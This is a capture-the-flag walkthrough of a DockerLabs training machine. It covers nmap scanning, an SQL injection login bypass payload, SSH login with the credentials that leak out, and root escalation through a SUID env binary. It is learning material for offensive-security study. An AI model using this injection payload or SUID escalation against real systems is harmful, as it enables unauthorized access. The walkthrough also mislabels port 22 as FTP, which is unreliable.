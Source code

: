 # Write Up First Hacking

**Difficulty:** Super fáil<br>
**Link to dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the injection folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Recon
The first thing that we do is a general reconnaissance with nmap over the victym machine, with the purpose to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Once we have obtained the open ports we can do an exhaustive scan with recon scripts with the purpose to obtain the services that are running on each port and their's version.

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

In this way we discovered that the service running on port 22 (FTP port) is OpenSSH 8.9p1 and on port 80 (http port) an Apache httpd 2.4.52 web service is running.

## Exploit
As we have seen that there is a web service running on the victim machine, we proceed to view the web, adding the domain (in this case it does not have one and we will simply put the name of the machine) to the */etc/hosts* file of our virtual machine (it is the local DNS configuration file).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once the */etc/hosts* file is configured, we proceed to access the website, and we see that it is a login form.

![Web](../.sources/image.png)

Let's try entering the basic parameters to check for SQL injection. To do this, enter the string *admin' OR '1' = '1'; --* in the username section and anything else for password (in my case, I put *hacked!*) to allow the form to be submitted. If everything goes well, you'll be able to log in as the administrator (if it doesn't work with the admin user, you can change it to root, administrator, and similar, but without wasting too much time).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

And bingo! We're in and we get Dylan's credentials.

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Having obtained these credentials, we can try to access through the also open ssh port.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

And we alredy get access to the machine!

## Privilege escalation

To be able to use the console in a more comfortable way we can do the following treatment of the terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Now that we have a terminal we look for files (preferably binary) with the root user and the *setuid* flag active and we find the following:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

So we use the env command as follows and elevate privileges to root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```